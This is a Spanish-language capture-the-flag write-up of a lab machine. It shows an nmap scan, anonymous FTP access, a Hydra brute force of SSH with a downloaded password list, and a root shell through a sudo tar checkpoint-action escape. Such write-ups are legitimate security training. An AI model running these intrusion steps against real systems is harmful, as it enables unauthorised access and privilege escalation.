 [VOLVER PAGINA PRINCIPAL](./)

# COWBOYHACKER - WriteUp
## Creamos la carpeta donde estara nuestra maquina para realizar la prueba

Creamos un directorio llamado **cowboyhacker** y nos meteremos a el.

```bash
mkdir cowboyhacker
cd $_
```

Una Vez dentro de la carpeta podemos realizar la actividad.

## Escaneo por NMAP

Ahora vamos ver los puertos que tiene la maquina para ello vamos a usar el siguiente comando de **nmap** para poder hacer el escaneo de puerto necesario.

```bash
nmap -sC -sV -p- -oN -min-rate=5000 Puertos.txt <IP_OBJETIVO>
```
- -min-rate=5000 : La cantidad de paquetes que se envia por segundo.
- -sC : Script predeterminados.
- -sV : Detección de versión.
- -oN : La salida donde se almacenara el resultado del comando.
- -p- : Todos los puertos para escanear.

**SALIDA DEL COMANDO**
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.40.26
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dcf8dfa7a6006d18b0702ba5aaa6143e (RSA)
|   256 ecc0f2d91e6f487d389ae3bb08c40cc9 (ECDSA)
|_  256 a41a15a5d4b1cf8f16503a7dd0d813c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**CAPTURA DEL RESULTADO EN LA TERMINAL**

![NMAP](/assets/img/HACKER_ETICO/COWBOYHACKER/NMAP-SCAN.png)

Con este resultado que vemos que existe un **FTP** en el cual se puede ver existe una entrada con **anonymous** y un servicio **SSH** en el cual se podria entra si existiera un usuario.

Tambien vemos el servicio **HTTP** pero no nos sirve de nada.

## ENTRAR EN FTP

Ahora vamos a entrar dentro del servicio **FTP**, con lo cual vamos a poner el siguiente comando para poder entrar en el.

Con lo que vamos entrar con el usuario **anonymous** que tiene **FTP** por defecto.

```bash
ftp <IP_OBJETIVO>
```

**SALIDA DEL COMANDO**
```bash
Connected to 10.10.18.227.
220 (vsFTPd 3.0.3)
Name (10.10.18.227:sunamy): anonymous
230 Login successful.
```

Ahora dentro del **FTP** vamos a poner el comando **ls** con lo se vera si existe unos fichero dentro de el.

**SALIDA DEL COMANDO**
```bash
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

Ahora vamos a descargar los ficheros del **FTP** con lo cual usamos el comando **GET** para poder descargarlo.

**SALIDA DEL COMANDO**
```bash
ftp> get locks.txt
local: locks.txt remote: locks.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for locks.txt (418 bytes).
100% |*******************************|   418      672.49 KiB/s    00:00 ETA
226 Transfer complete.
418 bytes received in 00:00 (7.04 KiB/s)
ftp> get task.txt
local: task.txt remote: task.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for task.txt (68 bytes).
100% |*******************************|    68      484.71 KiB/s    00:00 ETA
226 Transfer complete.
68 bytes received in 00:00 (0.20 KiB/s)
```

### PREGUNTAS SOBRE LO ENCONTRADO

- ¿Quién escribió la lista de tareas? 

```bash
Se observa en el fichero task.txt
```
- ¿Qué servicio puede hacer con fuerza bruta con el archivo de texto encontrado? 

```bash
Tras ver el usuario se puede ver que puerto se puede atacar.
```

## ENTRAR DENTRO DEL USUARIO

Tras observar el puerto en el cual podemos atacar vamos a usar **HYDRA** con los siguiente parametros.

```bash
hydra -l <USUARIO> -P <LIBRERIA-CONTRASEÑA> <IP-OBJETIVO> <PUERTO>
```

Como se ha observado anteriormente nos hemos descargado un archivo que se llama **locks.txt** que en realidad es un diccionario de las contraseña que se va usar para saber que contraseña tiene el usuario del puerto atacado.

**SALIDA DEL COMANDO**
```bash
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-01-10 13:12:21
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ###://10.10.18.227:22/
[22][###] host: 10.10.18.227   login: ##n   password: ###ed#####gon######at##
1 of 1 target successfully completed, 1 valid password found
```

### PREGUNTAS SOBRE LO ENCONTRADO

- ¿Cuál es la contraseña de los usuarios? 

```bash
Contraseña dada por Hydra.
```

## BANDERA DEL USUARIO

Una vez dentro del usuario vamos a poner el comando **ls** con lo cual vemos el primer fichero que contiene la primera bandera.

```bash
##n@bountyhacker:~/Desktop$ ls
user.txt
##n@bountyhacker:~/Desktop$ cat user.txt
THM{#####3_S####d1####3}
```
### PREGUNTAS SOBRE LO ENCONTRADO

- user.txt

```bash
THM{#####3_S####d1####3}
```

## BANDERA DEL ROOT

Ahora vamos a escalar de privilegios con lo cual tenemos que ver que aplicaciones tiene el usuario con lo cual se ejecuta como root, para ello ponemos el comando **sudo -l** con lo cual nos dice que tiene el usuario con privilegios de root.

```bash
Matching Defaults entries for lin on bountyhacker:                          
    env_reset, mail_badpass,                                                
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                            
                                                                            
User lin may run the following commands on bountyhacker:                    
    (root) /bin/tar
```

Como vemos tiene como privilegios de root la aplicación de **tar** con lo cual vamos a la pagina [GTFOBINS](https://gtfobins.github.io/gtfobins/tar/), con lo cual nos va decir como podemos entrar como **root** con el programa **tar**.

**SALIDA DEL COMANDO**
```bash
##n@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# cd / 
# ls
bin    dev   initrd.img      lib64       mnt   root  snap  tmp  vmlinuz
boot   etc   initrd.img.old  lost+found  opt   run   srv   usr  vmlinuz.old
cdrom  home  lib             media       proc  sbin  sys   var
```

Ahora vamos a la carpeta de **root** en el cual tiene la ultima bandera, con lo cual vamos usar el comando **ls**, para leer el fichero que tiene en el.

```bash
# cd root
# ls 
root.txt
# cat root.txt
THM{80########3r}
```

### PREGUNTAS SOBRE LO ENCONTRADO

- root.txt

```bash
THM{80########3r}
```

Y Con todo los pasos realizado hemos ya hemos terminado la maquina.

![TERMINADO](/assets/img/HACKER_ETICO/COWBOYHACKER/TERMINADO.png)